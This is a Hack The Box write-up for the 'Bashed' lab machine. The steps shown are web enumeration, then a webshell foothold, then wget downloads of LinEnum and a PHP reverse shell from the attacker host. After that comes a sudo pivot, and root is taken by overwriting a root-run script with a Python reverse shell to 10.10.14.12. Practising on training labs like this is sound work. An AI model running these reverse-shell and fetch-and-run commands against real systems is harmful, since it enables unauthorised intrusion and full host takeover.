




# Bashed
https://app.hackthebox.com/machines/118

Target IP
10.10.10.68

## Enumeration
---

```
sudo $(which autorecon) 10.10.10.68 --dirbuster.wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

### Nmap


### Forexbuster

```
...
301      GET        9l       28w      312c http://10.10.10.68/uploads => http://10.10.10.68/uploads/
301      GET        9l       28w      308c http://10.10.10.68/php => http://10.10.10.68/php/
...
301      GET        9l       28w      308c http://10.10.10.68/dev => http://10.10.10.68/dev/
...
```

### Webshell




```
$ cd /opt/linux_privesc 
$ sudo python3 -m http.server 80                                                                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
cd /var/www/html/uploads
wget http://10.10.14.12/LinEnum.sh
bash LinEnum.sh
```

```
...
[+] We can sudo without supplying a password!
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
...
```




```
www-data@bashed:/var/www/html/uploads# sudo -u scriptmanager whoami
scriptmanager
```


```
$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
```


```
www-data@bashed:/var/www/html/uploads# sudo -u scriptmanager nc -e /bin/bash 10.10.14.12 4444

nc: invalid option -- 'e'
This is nc from the netcat-openbsd package. An alternative nc is available
in the netcat-traditional package.
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]
[-P proxy_username] [-p source_port] [-q seconds] [-s source]
[-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]
[-x proxy_address[:port]] [destination] [port]
```





```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
www-data@bashed:/var/www/html/uploads# wget http://10.10.14.12/reverseShell.php

--2022-10-27 16:58:17-- http://10.10.14.12/reverseShell.php
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3908 (3.8K) [application/octet-stream]
Saving to: 'reverseShell.php'

0K ... 100% 11.1M=0s

2022-10-27 16:58:17 (11.1 MB/s) - 'reverseShell.php' saved [3908/3908]
```

```
sudo -u scriptmanager php /var/www/html/uploads/reverseShell.php
```

```
$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.68] 39734
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:01:14 up  1:22,  0 users,  load average: 0.03, 0.07, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
/bin/sh: 0: can't access tty; job control turned off
id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

stabilize shell
```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```

```
scriptmanager@bashed:/$ cat /home/arrexel/user.txt
7093************************cc3d
```

## Esc Priv

```
scriptmanager@bashed:/$ ls -lha
total 92K
drwxr-xr-x  23 root          root          4.0K Jun  2 07:25 .
drwxr-xr-x  23 root          root          4.0K Jun  2 07:25 ..
-rw-------   1 root          root           174 Jun 14 02:39 .bash_history
drwxr-xr-x   2 root          root          4.0K Jun  2 07:19 bin
drwxr-xr-x   3 root          root          4.0K Jun  2 07:19 boot
drwxr-xr-x  19 root          root          4.1K Oct 27 15:38 dev
drwxr-xr-x  89 root          root          4.0K Jun  2 07:25 etc
drwxr-xr-x   4 root          root          4.0K Dec  4  2017 home
lrwxrwxrwx   1 root          root            32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root          4.0K Dec  4  2017 lib
drwxr-xr-x   2 root          root          4.0K Jun  2 07:19 lib64
drwx------   2 root          root           16K Dec  4  2017 lost+found
drwxr-xr-x   4 root          root          4.0K Dec  4  2017 media
drwxr-xr-x   2 root          root          4.0K Jun  2 07:19 mnt
drwxr-xr-x   2 root          root          4.0K Dec  4  2017 opt
dr-xr-xr-x 183 root          root             0 Oct 27 15:38 proc
drwx------   3 root          root          4.0K Jun  2 07:19 root
drwxr-xr-x  18 root          root           500 Oct 27 15:38 run
drwxr-xr-x   2 root          root          4.0K Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager 4.0K Jun  2 07:19 scripts
drwxr-xr-x   2 root          root          4.0K Feb 15  2017 srv
dr-xr-xr-x  13 root          root             0 Oct 27 15:38 sys
drwxrwxrwt  10 root          root          4.0K Oct 27 17:14 tmp
drwxr-xr-x  10 root          root          4.0K Dec  4  2017 usr
drwxr-xr-x  12 root          root          4.0K Jun  2 07:19 var
lrwxrwxrwx   1 root          root            29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

```
scriptmanager@bashed:/scripts$ ls -lha
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Oct 27 17:16 .
drwxr-xr-x 23 root          root          4.0K Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   63 Oct 27 17:16 test.py
-rw-r--r--  1 root          root            17 Oct 27 17:19 test.txt
```

`test.py` writes as root on `test.txt`


new `test.py`
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.12",4445))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```

```
$ rlwrap nc -nlvp 4445
listening on [any] 4445 ...
```

```
rm test.py
wget http://10.10.14.12/test.py
```

```
$ rlwrap nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.68] 43362
root@bashed:/scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

```
root@bashed:/scripts# cat /root/root.txt
6b17************************f3d1
```
